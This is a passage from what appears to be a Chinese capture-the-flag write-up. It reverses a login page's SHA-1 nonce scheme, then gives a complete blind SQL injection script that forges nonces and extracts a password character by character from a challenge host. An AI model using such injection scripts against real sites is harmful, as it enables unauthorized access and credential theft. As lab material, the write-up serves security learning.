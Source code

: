 ```
            str += v.toString(16)
        }
        return str
    }
    //前面都是废话，只有这里调用了参数
    str = unescape(encodeURIComponent(key + data))
    ...
```

用Python验证这个方法，与抓包显示一致

```
import hashlib

str="YTY0YjM0Y2RhZTZiMjliZjFjOTQxOD==admin123"
print(hashlib.sha1(str).hexdigest())
//16fba050a134988ddff375d83ce4c18750f93870
```

最终盲注脚本
```
import hashlib
import string
import requests

def sha1(s):
    s = "YTY0YjM0Y2RhZTZiMjliZjFjOTQxOD==" + s
    return hashlib.sha1(s).hexdigest()

url = 'http://b7bb9d7701ed444ca2a1fa62ed1375a17b58727eba0b48c4.changame.ichunqiu.com/login.php'

headers = {
    "Content-Type": 'application/x-www-form-urlencoded'
}

temp = ''
for i in xrange(1, 50):
    for p in xrange(32, 126+1):
        # payload = " 'or ascii(substr((database()), {}, 1)) = {}%23".format(i, p)
        # payload = " 'or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='login'), {}, 1)) = {}%23".format(i, p)
        # payload = " 'or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'), {}, 1)) = {}%23".format(i, p)
        # payload = " 'or ascii(substr((select p@ssw0rd from users), {}, 1)) = {}%23".format(i, p)
        payload = " 'or ascii(substr(`p@ssw0rd`, {}, 1)) = {}%23".format(i, p)
        # print(p, payload)
        nonce = sha1(payload.replace('%23', '#') + '1')

        data = 'a={}&username={}&password=1&_nonce={}'.format('a'*26209, payload, nonce)
        r = requests.post(url, headers = headers, data=data)
        if len(r.content) == 782:
            temp += chr(p)
            print(temp)
            break
```
